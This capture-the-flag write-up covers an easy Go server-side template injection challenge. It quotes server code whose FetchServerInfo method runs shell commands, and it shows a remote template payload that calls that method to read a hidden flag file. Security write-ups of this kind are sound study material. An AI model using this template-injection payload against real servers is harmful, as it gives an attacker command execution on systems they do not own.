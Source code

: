 # Info
Difficulty: Easy
# Desc
> You've found a website that lets you input remote templates for rendering. Your task is to exploit this system's vulnerabilities to access and retrieve a hidden flag. Good luck!
# Writeup
This is a simple SSTI challenge. The flag has a random name, so getting a shell or code injection is required.
Although I'm not familliar with Go at all, I still can understand what the code is trying to do.

There are two render modes on the server, one is rendering local template file, another is rendering remote template file.
Also, the server is using `html/template` to render. The package dosen't have a native command executing method, but thankfully, the `RequestData` struct does have a method for executing system commands:
```go
type RequestData struct {
    ClientIP     string
    ClientUA     string
    ServerInfo   MachineInfo
    ClientIpInfo LocationInfo `json:"location"`
}

func (p RequestData) FetchServerInfo(command string) string {
    out, err := exec.Command("sh", "-c", command).Output()
    if err != nil {
        return ""
    }
    return string(out)
}
```

The tutorial in Hacktricks says we can use syntax like `{{.CustomAttribuesOrMethods}}` to access the passed object data.
The code has passed `RequestData` object to the template:
```go
err = tmpl.Execute(w, reqData)
```

Therefore, we can access the `FetchServerInfo` method in our template and execute system commands:
```
<!-- exp.tpl -->
{{.FetchServerInfo "cat /flagXXXXX.txt"}}
```